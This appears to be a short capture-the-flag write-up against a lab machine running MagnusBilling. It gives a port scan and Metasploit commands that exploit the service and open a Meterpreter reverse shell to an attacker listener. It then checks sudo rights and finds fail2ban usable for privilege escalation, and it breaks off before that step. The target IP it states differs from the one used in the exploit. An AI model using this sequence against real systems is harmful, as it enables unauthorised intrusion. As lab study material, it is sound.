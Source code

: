 #### Target Ip :  10.201.76.54

-----------

RustScan 

rustscan -a 10.201.76.54 -- -sC -sV 

![[Pasted image 20251025174816.png]]

We found open ports :  

Open 10.201.76.54:22  
Open 10.201.76.54:80
Open 10.201.76.54:3306
Open 10.201.76.54:5038

![[Pasted image 20251025183606.png]]

These are the service running on the server.

----------------
Then we found a exploit on msf console and the service was MagnusBilling


msf > search MagnusBilling

![[Pasted image 20251025183737.png]]

msf > use 0

msf >show options

![[Pasted image 20251025184034.png]]

msf >set RHOSTS 10.201.89.202

msf >set LHOST 10.17.17.19

msf >run

Now we get the meterpreter session 

![[Pasted image 20251025184353.png]]

Then back to the home directory 

Found total 3 users 

![[Pasted image 20251025184711.png]]

So finally in the magnus user i found the user.txt flag

----------------
Now lets find the root.txt Flag

To do that we have to escalate priviellage

check which service we can use under sudo permission . Before that change the meterpreter shell to normal shell.

meterpreter > shell

sudo -l

![[Pasted image 20251025190512.png]]

we found fail2bn service that have sudo permission......

**fail2ban :** Fail2ban is an open-source intrusion prevention software for Linux that protects servers from brute-force attacks by monitoring log files for suspicious activity and automatically banning malicious IP addresses.

lets exploit these service !!!!!!!!!!






